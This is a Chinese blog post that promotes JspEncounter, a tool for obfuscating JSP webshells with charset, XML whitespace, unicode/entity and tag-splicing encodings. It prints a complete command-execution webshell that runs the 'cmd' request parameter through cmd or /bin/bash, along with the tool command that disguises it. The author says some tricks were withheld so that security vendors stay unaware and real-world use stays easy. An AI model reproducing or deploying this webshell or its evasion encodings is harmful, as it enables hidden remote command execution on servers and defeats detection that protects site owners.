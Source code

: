 # JSP下的白魔法：JspEncounter

@turn1tup

## 前言

​		这几天看到的以前整活的一些有趣的JSP编码手法被补天的分享会提及到，想到有大佬与前些年的笔者一样，发现了这个手法，然后也一样不吝啬分享出来，不免与有荣焉。

​		竟然如此，笔者索性抽出咸鱼时间编写了一个小工具，帮助广大同学们学习该手法，而对应的原理实在枯燥乏味，就算笔者了然，但这最好还是给有心之人可自行查看吧，本文爽就完事了。

​		接下来直接阐述工具相应的矩阵手法及使用效果，而工具使用的注意项及等信息则请在github查看 ：

​		https://github.com/turn1tup/JspEncounter

## 矩阵手法

被工具转换前的原始source.jsp文件内容为：

```jsp
<%@page import="java.util.*,java.io.*" contentType="text/html" %>
<%! class Test{} %>
<%

    if (request.getParameter ("cmd") != null) {
        boolean isWin = System.getProperty("os.name").toUpperCase().contains("WIN");
        String[] cmd = {isWin?"cmd":"/bin/bash",isWin?"/c":"-c",request.getParameter("cmd")};
        InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
        OutputStream outputStream = response.getOutputStream();
        int a;
        outputStream.write(String.valueOf(System.currentTimeMillis()).getBytes());
        while((a=inputStream.read())!=-1){
            outputStream.write(a);
        }
    }

%>
```

工具命令为：

```
java  "-Dfile.encoding=utf-8" -jar JspEncounter.jar -m jsp -c matrix.xlsx -s source.jsp -o result.jsp
```



### magic charset

我们打开 `matrix.xlsx`进行配置，这里配置输出单种字符集文件：

![all_cp037](JSP下的白魔法/magic_charset.png)

执行命令后，输出的编码后的文件:

![magic_charset_demo](JSP下的白魔法/magic_charset_demo.png)

### declare charset

![declare_charset](JSP下的白魔法/declare_charset.png)

demo（放前后都可）:

![declare_charset_demo](JSP下的白魔法/declare_charset_demo.png)



### double chraset

双重字符集，这里以前文UTF-16BE 后文CP037为例：

![double_charset](JSP下的白魔法/double_charset.png)



![double_charset_demo](JSP下的白魔法/double_charset_demo.png)

### controller space

xml 1.1版本下，将标签内的左右括号进行对应的字符替换，该模式目前支持的字符集为utf-8/iso-8859-1/utf-16：

![controller_space](JSP下的白魔法/controller_space.png)

UTF-8字符集情况下：

![controller_space_demo](JSP下的白魔法/controller_space_demo.png)

ISO-8859-1情况下的特殊空白字符：

![controller_space_demo](JSP下的白魔法/controller_space_demo2.png)

### unicode & entity

这里使用双重编码对标签内的代码进行编码，即使用 unicode + html entity：

![entity](JSP下的白魔法/entity.png)



![eneity_demo](JSP下的白魔法/eneity_demo.png)



### ext tags

将代码拼接到 setProperty/useBean标签的属性中 ，该手法参考补天会议：

![exttag](JSP下的白魔法/exttag.png)

![exttag_demo](JSP下的白魔法/exttag_demo.png)

### namespace

![namespace](JSP下的白魔法/namespace.png)



![namespace](JSP下的白魔法/namespace_demo.png)

## 结语

​		通过本工具我们可以便捷地了解JSP中的这些编码手法，各手法的组合需要他们的逻辑不冲突，而某些手法组合的代码实现比较麻烦，笔者就暂先没有整，大家可自行探索。当然，笔者也稍微藏了一手，毕竟如果厂商都明白了，那我们实战起来也就不那么痛快了，但如果你能真正弄懂这个矩阵中的手法，相信也能发现其他手法。而相对整个webshell的混淆知识的图谱来说，本文也只是一角。

## Reference

https://www.anquanke.com/post/id/210630

https://www.anquanke.com/post/id/209826

`extTag setProperty/useBean拼接代码手法` 参考补天2022 webshell黑魔法



